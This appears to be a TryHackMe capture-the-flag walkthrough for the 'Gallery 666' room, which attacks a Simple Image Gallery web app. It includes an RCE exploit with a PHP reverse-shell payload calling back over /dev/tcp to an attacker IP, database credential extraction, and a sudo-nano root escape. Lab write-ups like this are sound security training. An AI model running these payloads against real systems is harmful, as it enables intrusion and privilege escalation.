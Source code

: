```yaml
---
title: Walkthrough - Gallery 666
published: true
---
```


CMS, Linux, SQLi, RCE. Try to exploit our image gallery system

[https://tryhackme.com/room/gallery666](https://tryhackme.com/room/gallery666)

* * *

## Notes

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Simple Image Gallery System
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

* * * 

## How many ports are open?

- 2

* * * 

## What's the name of the CMS?

- Simple Image Gallery -  we can use ``/usr/share/exploitdb/exploits/php/webapps/50214.py`` to exploit
- edit the payload ``payload= "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/10.2.127.225/7777 0>&1'\"); ?>"`` and setup a listener to receive a shell

* * * 

## What's the hash password of the admin user?

- ``cat /var/www/html/gallery/initialize.php``

```
cat initialize.php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```

- ``mysql -h localhost -p gallery_db -u gallery_user``
- ``show tables;``
- ``select * from users;``

* * * 

## What's the user flag?

- running linpeas.sh found something interesting

```
╔══════════╣ Searching passwords in history files
      @stats   = stats                                      
      @items   = { _seq_: 1  }
      @threads = { _seq_: "A" }
sudo -l b3stpassw0rdbr0xx
sudo -l
```

- use this to su to mike

* * * 

## Escalate to root

```
(remote) mike@gallery:/$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

- ``cat /opt/rootkit.sh``
- this shell script when set to read runs nano as sudo so we can use it to get root. Run the script and "read" and then ``^R^X`` then ``reset; sh 1>&0 2>&0`` to get root

![0xskar](/assets/gallery66601.png)

* * * 
